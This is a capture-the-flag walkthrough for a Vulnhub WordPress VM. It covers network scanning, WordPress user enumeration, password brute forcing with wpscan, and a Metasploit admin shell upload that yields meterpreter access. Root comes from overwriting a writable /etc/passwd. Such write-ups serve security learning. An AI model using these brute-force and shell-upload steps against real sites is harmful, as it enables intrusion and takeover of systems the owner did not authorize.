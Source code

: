 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | wordpress hacking |
|End Goal: |	Get root |
|Tool: | nmap, nikto, wpscan, metasploit  |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - Nikto scan
  - wpscan
- Exploit
  - Wordpress Exploit
  - Privilege escalation
  - Get root
## Walkthrough
### Scanning
Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)

Nothing here. Scan Web with nikto

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/547d2d58-5288-4b85-95ea-94ab2e84627a)

We find a interestin folder is **secret**. When check in URL, I find wordpress login page

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/bc174807-5783-45b0-b288-fa31ccc2dce2)

### Enumeration

The next step is to enumerate any potential users and vulnerabilities in the site by using wpscan:

```
wpscan --url http://192.168.44.130/secret -e u

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

I find a user that is **admin**. Let's continue to bruteforce the password of this user by ussing wpscan.

```
wpscan --url http://vtcsec/secret/ -U admin -P  /usr/share/wordlists/dirb/common.txt

```
I find the password for admin that is admin

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/950cc8d0-d279-491c-81b8-f3a8ca5aff7d)

Log in with this credential

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/990c1ffb-637d-4f7c-9f92-e7a1876699fd)


### Exploit
- Upload php reverse shell into wordpress page. Metasploit can be used to generate a plugin which will automationally upload a payload and give us shell. Start metasploit and set options that are necessary.

```
msf6 > search wp admin shell
msf6 > use 3
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.44.130
RHOST => 192.168.44.130
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /secret
TARGETURI => /secret
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/4810e633-4fa2-4ee1-9e7c-5bf4d8e5b4ed)

The exploit should executed successfully and open a meterpreter session. Running a getuid command from this session (or id from a shell) shows we currently have access as the user: www-data. Therefore, some additional work is required to obtain root access.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/c3e57682-80ab-42a8-b502-329d6acd1b83)

### Privilege escalation
To check for any potential misconfigurations that could be lead to privilege escalatio, I use unix-privesc-check to scan.

Firstly, you must upload to the target by meterpreter

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/ff86f954-d848-4b80-8318-d38f6ccd03ff)

Set excure permision for unin-privesc_check and run script.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/06bc75c5-77c1-434d-9665-7244afa11e65)

From the result, we can edit file /etc/passwd. Download /etc/passwd to local macline.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/12f6648b-7899-465a-83f7-2c484ca9c4ee)

Then, from a local terminal, we can use openssl to generate a new hashed password:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/efd82140-dbb5-4e0d-b797-a72d57a633c5)

Finally, we can edit the passwd file using vim and replace the x value for the root user with the hashed password from the above command:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/16144723-c017-4abd-9943-7e2f58409fcd)

The modified passwd file can then be uploaded to the target via the meterpreter session:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/aa86b3a8-0a87-4e76-ac58-dccea620215e)

Using the the shell command in meterpreter this can then be tranformed into an interactive bash shell via Python:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/5d530681-ea87-4d61-b955-d9f61e7f4b97)

Finally, we can su to the root user using the new password generated above:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/40f1c099-6930-4d7d-96c8-d7214c5d5de2)

Checking information of current user:

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/8802fb73-fc59-4fff-b6bb-c78afa10db90)

So we get root of this machine.


